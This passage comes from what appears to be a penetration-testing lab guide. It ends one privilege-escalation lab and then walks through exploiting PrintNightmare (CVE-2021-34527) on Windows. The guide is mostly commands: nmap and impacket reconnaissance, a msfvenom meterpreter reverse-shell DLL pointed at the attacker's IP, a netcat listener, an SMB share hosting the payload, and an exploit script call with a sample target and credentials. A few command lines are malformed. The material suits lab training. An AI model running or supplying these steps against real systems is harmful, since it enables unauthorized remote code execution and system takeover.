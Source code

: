    - Execute the payload (evil.msi) and catch the shell. Find the flag in the desktop directory of the user john.

#### Why It Works
Misconfigured permissions grant low-privileged users access to sensitive resources, enabling privilege escalation.

#### Alternatives
- TO-DO

#### Resources
- [Impacket Documentation: https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

#### Notes
- Ensure valid credentials are available for enumeration.

---

### Lab 2: Print Nightmare
#### Objective
Exploit the Print Nightmare vulnerability to gain system-level access on a Windows machine.

#### Vulnerabilities
- Print Nightmare (CVE-2021-34527): Unauthenticated remote code execution in the Windows Print Spooler service.

#### Requirements
Target Windows machine must have Print Spooler service enabled and unpatched.

#### Steps
1. **Setup**
   - Verify connectivity to the target.
   ```bash
   ping <TARGET_IP>
   ```
2. **Reconnaissance**
   - Confirm Print Spooler service is running. (optional)
   ```bash
   nmap -p 445 --script smb-vuln-cve-2021-34527 <TARGET_IP>
   ```
   - Check if the target is vulnerable with impacket
   ```bash
    impacket-rpcdump <USER>:<PASSWORD>@<TARGET_IP> | egrep 'MS-RPRN|MS-PAR'
    ```
    - If found, then proceed to exploitation. But you could also enumerate the domain
    ```bash
     $ impacket-smbserver share <PATH-TO-PAYLOAD> -smb2support
     $ impacket-lookupsid <USER>:<PASSWORD>@<TARGET_IP> 
    ```
3. **Exploitation**
   - Generate a payload using msfvenom
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<our-ip> LPORT=<LISTENING_PORT> -f dll -o payload.dll
   ``
   - Start a netcat listener `nc -nlvp <LISTENING_PORT>`
   - Download and use [PrintNightmare exploit](https://github.com/nathanealm/PrintNightmare-Exploit) to execute a malicious DLL.
   ```bash
   $ python3 CVE-2021-1675.py <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET_IP> '<MALICIOUS_DLL_PATH>'
   $ python3 CVE-2021-1675.py DEKSTOP-NNMPL2T/User:123456@10.10.0.14 '\\\\<ATTACKER_IP>>\\share\\payload.dll' [ This is an example ]
   ```
